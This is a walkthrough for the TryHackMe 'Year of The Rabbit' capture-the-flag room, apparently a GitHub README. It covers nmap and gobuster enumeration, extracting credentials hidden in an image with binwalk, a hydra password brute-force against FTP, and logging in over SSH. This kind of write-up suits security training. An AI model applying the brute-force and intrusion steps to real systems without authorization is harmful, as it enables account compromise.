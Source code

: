 # Year of The Rabbit
    ~ https://tryhackme.com/room/yearoftherabbit

* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")
*  ### Do follow this page through out the line to void confusion.

<br>

 ![rabbit intro](https://user-images.githubusercontent.com/112984045/200450627-fcc3ffa8-4e3c-4bde-9530-2cdb6acfbf7b.png)
~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![rabbit nmap](https://user-images.githubusercontent.com/112984045/200450896-f5d9f661-a182-4d23-a6bd-ac86ea7ebce7.png)
 <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
![rabbit portscanner](https://user-images.githubusercontent.com/112984045/200451032-97c2aa8e-2ace-4a73-8c87-d8280bfd5bee.png)<br>
 ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 
 <br>
 
 ```bash
 gobuster dir -u http://10.10.118.215/ --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o commongobu.txt
 ```
 ![rabbit gobuster](https://user-images.githubusercontent.com/112984045/200460412-5d6f4312-86ab-4372-805f-7875f79515a0.png)
 <br>
 
 ```bash
 http://<IP>/assets/
 ```
 ![rabbit assets](https://user-images.githubusercontent.com/112984045/200452670-15edf2c8-84b6-4285-8e6b-897f3983ab95.png)
 <br>
 
```bash
http://<IP>/assets/style.css
```
![rabbit assets css](https://user-images.githubusercontent.com/112984045/200698012-0eaba1c0-3685-4bab-80dc-45f8d3b7c629.png)
<br>

```bash
http://<IP>/< directory name in style.css >
```
` use the burp.. to check the response.`
![rabbit burp](https://user-images.githubusercontent.com/112984045/200702406-47239f73-313c-4ad4-8b47-85ee21b0b63d.png)
<br>

```bash
http://<ip>/< hidden directory name found in burp response >
```
![rabbit wexy](https://user-images.githubusercontent.com/112984045/200703653-2c5b4901-690a-4074-8aaa-bf80b340d397.png)
<br>

` copy the hot_bae image link and use the command :`
```bash
wget < link of image >
```
![rabbit wget](https://user-images.githubusercontent.com/112984045/200704376-4cd96a1f-c1cc-4678-ab41-28fe2391697d.png)
<br>

```bash
binwalk Hot_Babe.png 
```
```bash
sudo binwalk -e Hot_Babe.png --run-as=root
```
![rabbit binwalk](https://user-images.githubusercontent.com/112984045/200704812-9f351144-17c9-4001-acee-49013321a323.png)
<br>

```bash
cd _Hot_Babe.png.extracted
```
<br>

` use external web to extract the files in 36.zlib`[web](https://filext.com/file-extension/ZLIB)
![rabbit zlib extract](https://user-images.githubusercontent.com/112984045/200705317-7736006e-7870-40b1-b56b-9e52983bdabf.png)
<br>

```bash
hydra -l < username extracted > -P < list of passwords extracted > ftp://<IP>
```
` don't forget remove spaces from the password list`
![rabbit hydra ftp](https://user-images.githubusercontent.com/112984045/200705605-f4b8f8c1-ae57-4ce1-89cf-87aa30af85b5.png)
<br>

```bash
ftp <IP>
```
![rabbit ftplogin](https://user-images.githubusercontent.com/112984045/200706000-512cd4b9-0773-46c3-b4bc-93dd6b340b72.png)
<br>

```bash
get Eli's_Creds.txt
```
<br>

` terminate the ftp connection using ctrl+d `

` the code in Eli's_Creds.txt was a brainfuck programming language which is really good at its name `
* use [web](https://www.tutorialspoint.com/execute_brainfk_online.php) to execute the program.

![rabbit brainfuck](https://user-images.githubusercontent.com/112984045/200707694-ce3ff23b-2b5a-42f1-9292-81eea695481c.png)
<br>

```bash
ssh <username from brainfuck execution>@<IP>
```
![rabbit ssh login](https://user-images.githubusercontent.com/112984045/200711363-8062ba83-b659-4c0c-92b5-3f1302550815.png)



